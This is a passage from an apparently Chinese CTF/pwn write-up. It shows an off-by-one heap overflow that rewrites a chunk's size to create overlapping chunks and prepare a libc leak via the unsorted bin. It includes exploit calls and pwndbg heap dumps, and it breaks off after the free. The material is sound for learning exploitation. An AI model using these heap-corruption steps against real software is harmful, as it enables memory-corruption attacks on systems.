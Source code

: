 由于off by one和对输入控制的不恰当，因此可以通过堆溢出来修改下一个堆块的size：

> 请注意，虽然修改了chunk的size，但是堆块的实际大小并不会发生变化，也就是说可以修改的地方是有限的，
>
> 修改size只是为了接下来的use unsortedbin to leak libc_base作准备。
>

## chunk Extend/Overlapping修改下一个chunk的size
```python
write(0,34,'a'*24+'\xe1') #0
```

修改之后的结果：

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x6161616161616161	0x6161616161616161
------------------------------------------------------------------------
0x555555757020:	0x6161616161616161	0x00000000000000e1 #index1 
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100:	0x0000000000000000	0x0000000000000071 #index3
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170:	0x0000000000000000	0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0:	0x0000000000000000	0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220:	0x0000000000000000	0x0000000000000000
------------------------------------------------------------------------
pwndbg>
```

## 释放被修改size的堆块
```python
drop(1) #1
```

接下来释放index为1的chunk：

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x6161616161616161	0x6161616161616161
------------------------------------------------------------------------
0x555555757020:	0x6161616161616161	0x00000000000000e1 #index1 
0x555555757030:	0x00007ffff7dd1b78	0x00007ffff7dd1b78 （1）
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100:	0x00000000000000e0	0x0000000000000070 #index3 （2）
    			#index1+index2_size #index3_size
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170:	0x0000000000000000	0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
```